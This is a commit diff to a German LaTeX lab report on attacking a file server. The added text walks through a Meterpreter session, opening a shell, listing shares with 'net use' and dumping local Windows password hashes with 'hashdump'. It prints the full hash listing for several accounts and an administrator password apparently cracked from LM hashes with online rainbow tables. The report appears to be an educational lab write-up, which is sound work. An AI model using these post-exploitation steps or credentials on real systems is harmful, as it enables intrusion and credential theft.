

Before and after one commit to thkoch2001/hagen_1599_2012_wilddiebe, a LaTeX document (latex_report/Fachpraktikum.tex, which reads latex_report/HackenDateiserver.tex): two parts of pages 22 and 23 of 46 before the commit and two parts of pages 22 and 23 of 47 after it, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Ergaenzungen Hacken Dateiserver hinzugefuegt

```diff
--- a/latex_report/HackenDateiserver.tex
+++ b/latex_report/HackenDateiserver.tex
@@ -353,10 +353,9 @@ meterpreter > download Rezept2NJ.txt
 meterpreter > ;-)
 \end{lstlisting}
 
-Ein alternativer Weg, um in der Meterpreter-Session die Rezepte zu finden, geht über die Auflistung der vorhandenen Freigaben mit dem Windows-Befehl \emph{net use}. Daraus kann dann direkt der dahinterliegende Ordner gefunden werden...
+Ein alternativer Weg, um in der Meterpreter-Session die Rezepte zu finden, geht über die Auflistung der vorhandenen Freigaben mit dem Windows-Befehl \emph{net use} in einer zuvor mit dem Befehl \emph{shell} ge\"offneten Windows-Kommandozeile. Daraus kann dann direkt der dahinterliegende Ordner gefunden und seine Inhalte aufgelistet werden...
 
 \begin{lstlisting}[language=Metasploit]
-
 meterpreter > shell
 
 Process 1760 created.
@@ -385,3 +383,27 @@ meterpreter > ls C:\\Geheimrezepte
+\end{lstlisting}
+
+Außerdem kann man sich noch mit dem Befehl \emph{hashdump} die lokale Nutzerdatenbank mit den Passwort-Hashes ausgeben lassen. Die dort von Windows 2003 standardmäßig gespeicherten LM-Hashes lassen sich mit Hilfe von Rainbow-Tables innerhalb von wenigen Sekunden entschlüsseln, z. B. online unter \url{http://www.crack-online.com/}. Als Administrator-Passwort konnte beispielsweise durch das Analysieren-Lassen von\\
+\emph{30b56c5a33fbec925395a77c12853f9f:d9147b2c2e2c06320ae8af50bc71d67d}\\
+das Passwort \emph{mayermayer\#} ermittelt werden.
+
+\begin{lstlisting}[language=Metasploit]
+meterpreter > hashdump
+
+Administrator:
+	500:30b56c5a33fbec925395a77c12853f9f:d9147b2c2e2c06320ae8af50bc71d67d:::
+Christian:
+	1027:814296f64aab50f985ba78ba0ecdceb0:440103c961c4ff0c240f0c5a483e9d2c:::
+Daniela:1029:acf52f38f169af6e99be16b12419c012:746bf92e43a6d5af71eef31389c7dac4:::
+Gast:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
+Marcel:1025:ed121d2a2b5ecee9c9e04f959d38ccb0:6ba8c72392ed275d6b9ffb1936f9bb6a:::
+Mayer:1028:aaf5ee32cbe91ffdaad3b435b51404ee:68b83446c10ded73a192fed4dbd4cd38:::
+Mueller:
+	1033:4ed51acf7905e9a9aad3b435b51404ee:56ed5326e548a66a2187da0d5810593b:::
+M\"uller:1034:fb0c033ca6248c12aad3b435b51404ee:6d175e66b077b534bc30280cb0218716:::
+Rene:1026:b7731651af6345a825ad3b83fa6627c7:272da8d2ebae0086f417bce3790ce205:::
+SUPPORT_388945a0:
+	1001:aad3b435b51404eeaad3b435b51404ee:f949ba8fc7dd717fed514fc97e6025a8:::
+User0815:1023:e52cac67419a9a22417eaf50cfac29c3:60ed35ce39cf0db011f4bdbd19382d72:::
 \end{lstlisting}
 
 \subsubsection{Armitage}
```
Also changed, not shown: latex_report/HackenDateiserver.tex (21 more changed lines).
